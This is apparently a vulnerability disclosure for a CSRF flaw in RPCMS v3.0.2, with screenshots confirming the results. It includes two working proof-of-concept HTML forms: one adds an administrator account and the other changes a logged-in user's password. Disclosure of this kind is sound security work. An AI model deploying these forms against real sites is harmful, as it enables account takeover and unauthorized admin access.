 There is a csrf vulnerability in RPCMSv3.0.2. You can add administrator users and modify the password of the attacker. First, look at the source code and find that the original password is not verified. The user name does not seem to be verified, only the cookie is verified.
 ![image](https://user-images.githubusercontent.com/40231393/197531430-89ae0c13-f555-4345-b058-8d2be825f34e.png)
![image](https://user-images.githubusercontent.com/40231393/197531445-e1626e0e-8d47-4098-9bc0-879dde59ce63.png)

Add admin poc:
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://xx.xx.xx.xx/admin/user/doAdd.html" method="POST">
      <input type="hidden" name="&#95;t" value="1666276030511" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="nickname" value="test" />
      <input type="hidden" name="role" value="admin" />
      <input type="hidden" name="status" value="0" />
      <input type="hidden" name="isCheck" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

Modify the password poc:
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http:// xx.xx.xx.xx /admin/index/updatePsw.html" method="POST">
      <input type="hidden" name="&#95;t" value="1666275353675" />
      <input type="hidden" name="nickname" value="admin" />
      <input type="hidden" name="password" value="12345678" />
      <input type="hidden" name="password2" value="12345678" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

First log in as admin and click the first to create a user poc:
![image](https://user-images.githubusercontent.com/40231393/197531678-743c1fa9-45cd-4ee2-a3d6-f55a0221968f.png)
![image](https://user-images.githubusercontent.com/40231393/197531714-cdeff272-8b88-4aa8-9d0a-3e6563a5a034.png)
The addition is successful, the first csrf trigger takes effect, and the password is 123456
![image](https://user-images.githubusercontent.com/40231393/197531848-a95b1506-3fd9-4859-92ce-649116bb5eaa.png)
Then log in to test and try to access the second poc:
![image](https://user-images.githubusercontent.com/40231393/197531940-5cd3be43-5d1f-4fab-8549-6fbf5ec6f1c1.png)
Log in again, 123456 login failed
![image](https://user-images.githubusercontent.com/40231393/197532006-8f864a6f-d845-45bd-92b3-ea01d7b2fb1e.png)
And 12345678 successfully logged in, indicating that the csrf trigger takes effect
![image](https://user-images.githubusercontent.com/40231393/197532078-d9842893-67c9-4337-8f7f-c3b612a0a441.png)


